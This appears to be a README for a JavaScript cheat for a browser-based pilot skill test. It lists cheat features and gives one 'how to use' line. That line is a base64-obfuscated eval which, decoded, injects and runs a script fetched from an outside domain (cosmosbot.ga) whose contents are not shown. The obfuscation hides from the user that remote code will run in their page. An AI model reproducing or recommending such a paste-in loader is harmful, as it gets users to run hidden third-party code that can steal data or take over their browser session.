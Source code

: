 # Air Force Pilot's Test Cheat
A JavaScript based cheat engine for the [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm).

## Features
 - Enemies disappear on game start
 - Timer below player
 - Double click player to bring back enemies

## How to use
`eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9jb3Ntb3Nib3QuZ2EvY2RuL0NvbnRlbnQvaW5qZWN0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZChzY3JpcHQpOw=='))`

